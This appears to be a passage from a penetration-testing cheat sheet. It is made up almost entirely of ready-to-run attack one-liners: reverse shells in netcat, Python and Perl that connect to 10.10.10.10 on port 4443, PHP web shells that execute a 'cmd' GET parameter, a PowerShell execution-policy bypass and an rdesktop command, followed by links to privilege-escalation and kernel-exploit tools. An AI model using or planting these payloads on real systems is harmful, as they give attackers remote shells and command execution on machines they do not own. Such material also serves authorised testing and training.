  `nc -e cmd.exe 10.10.10.10 4443`


# Python

` python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.conn
 ect(("10.10.10.10",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=
 subprocess.call(["/bin/sh","-i"]);'`


# Perl

` perl -e 'use Socket;$i="10.10.10.10";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tc
 p"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDE
 RR,">&S");exec("/bin/sh -i");};'  `


# Remote Desktop

## Remote Desktop for windows with share and 85% screen

` rdesktop -u username -p password -g 85% -r disk:share=/root/ 10.10.10.10`


# PHP

## PHP command injection from GET Request

     <?php echo system($_GET["cmd"]);?>

     #Alternative
     <?php echo shell_exec($_GET["cmd"]);?>


# Powershell

# Non-interactive execute powershell le

` powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1`


# Misc

# More binaries Path

` export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/ucb/`


  [632d99cf]: https://github.com/sleventyeleven/linuxprivchecker "LinuxPrivChecher"
  [7e52e0f5]: https://github.com/rebootuser/LinEnum "LinEnum"
  [c844aa43]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp "PowerUp"
  [96609f81]: https://github.com/abatchy17/WindowsExploits "abatchy17"
  [233cd690]: https://github.com/lucyoa/kernel-exploits "kernel-exploits"
